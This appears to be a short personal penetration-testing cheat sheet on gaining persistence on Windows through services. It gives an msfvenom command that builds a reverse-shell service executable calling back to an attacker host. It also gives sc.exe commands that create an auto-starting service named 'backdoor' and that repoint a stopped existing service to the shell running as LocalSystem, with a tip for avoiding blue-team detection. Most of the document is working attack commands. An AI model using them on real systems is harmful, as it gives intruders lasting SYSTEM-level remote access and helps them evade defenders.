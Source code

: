 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

[sc](reg.md#sc)
### Creating New Services
```powershell
# Create a reverse shell using msfvenom, with exe-service, as service executables are different from normal executables
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe-service -o rev-svc.exe

# Crate a service
sc.exe create backdoor binpath= "C:\path\to\reverse\shell.exe" start= auto
sc.exe start backdoor
```
### Modifying Existing Services
- Usefull when blue team is monitoring new services
- Look for `Stopped` services.
```powershell
sc.exe query state=all
```
- check configuration
```powershell
sc.exe query Stopped_Service
sc.exe config Stopped_Service binpath= "C:\Reverse\Shell.exe" start= auto obj= "LocalSystem"
# Setting obj to LocalSystem runs the service with SYSTEM Privilege
```